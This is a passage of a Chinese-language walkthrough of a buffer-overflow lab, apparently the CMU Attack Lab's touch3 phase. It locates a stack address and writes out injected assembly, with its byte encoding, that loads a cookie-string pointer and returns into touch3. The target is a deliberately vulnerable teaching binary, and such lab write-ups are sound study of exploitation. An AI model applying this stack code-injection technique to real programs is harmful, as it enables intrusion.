 也就是说，我们要把`cookie`转换成对应的字符串传进去

注意第6行，`s`的位置是随机的，我们写在`getbuf`栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。

因此，考虑把`cookie`的字符串数据存在`test`的栈上，其它部分与上题相同，这里不再重复思路。

### 注入代码

先查找`test`栈顶指针的位置：

![](./assets/image-20220305094755965.png)

`0x5561dca8`，这就是我们字符串存放的位置，也是调用`touch3`应该传入的参数，又`touch3`代码的地址为`4018fa`。从而得到代码：

```assembly
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```

字节级表示为：

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

### 栈帧讲解

我们期望的栈帧应该是这样的：
